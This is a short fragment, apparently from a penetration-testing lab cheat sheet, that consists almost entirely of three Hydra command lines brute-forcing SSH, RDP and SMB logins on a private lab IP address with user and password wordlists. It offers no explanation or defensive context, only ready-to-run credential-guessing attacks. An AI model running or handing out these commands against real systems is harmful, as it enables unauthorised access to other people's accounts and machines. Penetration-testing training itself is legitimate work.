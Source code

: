 ssh SSH
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

RDP
```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```
SMB
```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```
